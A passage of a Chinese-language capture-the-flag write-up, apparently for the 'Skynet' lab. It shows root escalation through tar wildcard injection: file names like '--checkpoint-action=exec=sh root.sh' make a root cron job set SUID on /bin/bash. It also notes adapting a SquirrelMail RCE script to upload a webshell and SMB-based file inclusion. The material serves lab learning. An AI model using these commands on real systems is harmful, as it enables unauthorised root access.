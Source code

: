 ### www-data --> root
我们在用户的家目录发现一个 `backup.sh` 程序， 我们知道这是一个备份程序
```bash
(remote) www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *

(remote) www-data@skynet:/var/www/html$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

该程序对应的存在一个通佩符利用

```bash
(remote) www-data@skynet:/var/www/html$ echo 'chmod u+s /bin/bash' > root.sh
(remote) www-data@skynet:/var/www/html$  echo "" > "--checkpoint-action=exec=sh root.sh"
(remote) www-data@skynet:/var/www/html$  echo "" > --checkpoint=1
(remote) www-data@skynet:/var/www/html$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
(remote) www-data@skynet:/var/www/html$ /bin/bash -p
(remote) root@skynet:/var/www/html# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

## 扩展
### 利用邮件进行本地文件包含漏洞
我们可以修改 [SquirrelMail_RCE_exploit.sh](https://github.com/xl7dev/Exploit/blob/master/SquirrelMail/SquirrelMail_RCE_exploit.sh) 这个脚本中一些内容

![20240528115042](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528115042.png)

将这段内容修改为我们的一句话木马进行上传， 但是服务端做了过滤导致失败

![20240528115054](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528115054.png)

同时为什么我们刚开始使用该工具无法获得 Shell, 过滤了 IP 和 端口

![20240528115114](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528115114.png)

### 利用 SMB 共享进行包含

如果我们知道 SMB 共享的目录, 我们可以借此上传一个文件上去, 利用文件包含漏洞进行攻击